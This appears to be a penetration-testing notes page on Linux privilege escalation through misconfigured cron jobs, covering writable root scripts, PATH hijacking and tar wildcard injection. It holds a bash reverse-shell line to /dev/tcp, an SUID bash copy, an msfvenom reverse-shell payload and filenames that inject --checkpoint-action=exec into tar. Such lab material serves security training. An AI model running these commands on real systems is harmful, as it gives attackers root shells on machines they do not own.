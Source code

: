 # cron/crontab abuse

## <mark style="color:red;">Crontab</mark> <a href="#top" id="top"></a>

#### cron or crontab is a unix job scheduler tool. a best friend for system administrators and when misconfigured, the best chance for an attacker to gain root access. cron instructions usually consist of simple commands like a regular rsync command or a log cleaner one-liner script.but it gets real interesting when we find a path for a script to run as sudoer or root user in the crontab entries.if we are lucky enough to have an insecure file permission we can use it to escalate our privileges. In order to leverage insecure file permissions, we must locate an executable file that not only allows us write access but also runs at an elevated privilege level. On a Linux system, the cron time based job scheduler is a prime target, as system-level scheduled jobs are executed with root user privileges and system administrators often create scripts for cron jobs with insecure permissions.

#### for example look for cron jobs with the following commands: `grep "CRON" /var/log/cron.log >>> works best for unprivileged users` `crontab -l` `ls -alh /var/spool/cron` `ls -al /etc/ | grep cron` `ls -al /etc/cron*` `cat /etc/cron*` `cat /etc/at.allow` `cat /etc/at.deny` `cat /etc/cron.allow` `cat /etc/cron.deny` `cat /etc/crontab` `cat /etc/anacrontab` `cat /var/spool/cron/crontabs/root`

![](../../../.gitbook/assets/cron1.png)

when we find a file we check the permissions and content

![](../../../.gitbook/assets/cron2.png)

greate, we have read/write access to a file that is executed by root user every minute.the rest is history: we add a reverse shell one-liner to the file and setup a listener and wait for cron to run the script.

#### `` `echo "bash -i >& /dev/tcp/192.168.56.1/8080 0>&1" >> /usr/local/bin/overwrite.sh` ``

![](../../../.gitbook/assets/cron3.png)

## <mark style="color:red;">PATH Environment Variable</mark>

\
The crontab PATH environment variable is by default set to /usr/bin:/bin The PATH variable can be overwritten in the crontab file. If a cron job program/script does not use an absolute path, and one of the PATH directories is writable by our user, we may be able to create a program/script with the same name as the cron job.\
\
View the contents of the system-wide crontab:\\

#### `cat /etc/crontab`

Note that the /home/user directory (which we can write to) is at the start of the PATH variable, and the first cron job does not use an absolute path.\\

![](../../../.gitbook/assets/cron4.png)

so we have full access to our home path which is also the PATH variable in crontab so we can create a file with the same name in our home directory and the cronjob will execute it.

![](../../../.gitbook/assets/cron5.png)

we can also make a copy of /bin/bash to have a root shell without spawning a new tty:

#### \`\` `nano /home/user/overwrite.sh` `#!/bin/bash` `cp /bin/bash /tmp/rootbash` `chmod +s /tmp/rootbash`

#### Once the /tmp/rootbash file is created, execute it (with -p to preserve the effective UID) to gain a root shell:

#### `/tmp/rootbash -p`

![](../../../.gitbook/assets/cron6.png)

## <mark style="color:red;">Wildcards</mark>

\
Since filesystems in Linux are generally very permissive with filenames, and filename expansion happens before the command is executed, it is possible to pass command line options (e.g. -h, --help) to commands by creating files with these names. The following commands should show how this works:\
\\

#### `ls *` `touch ./-l` `ls *`

![](../../../.gitbook/assets/w1.png)

Filenames are not simply restricted to simple options like -h or --help.\
In fact we can create filenames that match complex options:\\

#### `--option=key=value`

[GTFOBins](https://gtfobins.github.io/#) can help determine whether a command has command line options which will be useful for our purposes.\
\
\
View the contents of the system-wide crontab:\\

#### `cat /etc/crontab`

![](../../../.gitbook/assets/w2.png)

View the contents of the /usr/local/bin/compress.sh file:\
\\

#### `$ cat /usr/local/bin/compress.sh` `#!/bin/sh` `cd /home/user` `tar czf /tmp/backup.tar.gz *`

Note that the tar command is run with a wildcard in the /home/user directory.\
GTFOBins shows that tar has command line options. which can be used to run other commands as part of a checkpoint feature.

![](../../../.gitbook/assets/w3.png)

Use msfvenom to create a reverse shell ELF payload:\\

#### `msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.56.1 LPORT=6666 -f elf -o shell.elf`

\
\
Copy the file to the /home/user directory on the remote host. Create two files in the /home/user directory:\
\\

#### `touch /home/user/--checkpoint=1` `touch /home/user/--checkpoint-action=exec=shell.elf`

Run a netcat listener on your local machine and wait for the cron job to run. A reverse shell running as the root user should be caught.

![](../../../.gitbook/assets/w4.png)

